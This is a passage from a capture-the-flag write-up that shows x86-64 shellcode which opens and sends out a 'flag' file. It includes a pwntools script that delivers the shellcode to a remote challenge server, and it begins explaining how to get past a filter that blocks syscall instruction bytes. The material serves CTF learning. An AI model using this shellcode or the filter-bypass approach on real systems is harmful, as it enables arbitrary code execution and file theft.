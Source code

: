 ```python
open:
lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

sendfile:
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40
syscall

exit:
mov rax, 60
mov rsi, 42
syscall

flag:
  .string "flag"

""")

p = remote("0.cloud.chals.io", 34832)
print_clean(p.recvuntil(b"Reading 0x18 bytes from stdin.\n"))
p.sendline(setup)
pause(1)
p.send(shellcode)

print_clean(p.readrepeat())

```

Here's the solution already implemented in 'boilerplate.py'


## Task 3

Same procedure used with the first two challenges, we edit the port value in 'boilerplate.py' and navigate to the target webpage. This time we notice that the stdin bytes are back to 0x1000 but there is new text that states that now syscalls in all their forms are filtered out before, and only before, runtime. The filter only looks for the specific bytes of syscall (0x0f05), sysenter(0x0f34) and int (0x80).
There are also other lines which contiain helpful hints to solve this challenge.
The answer of this challenge lies in how syscalls are actually executed. I we look at the output of the previous challenge:
![Screenshot of the executed shellcode](images/img2.png)
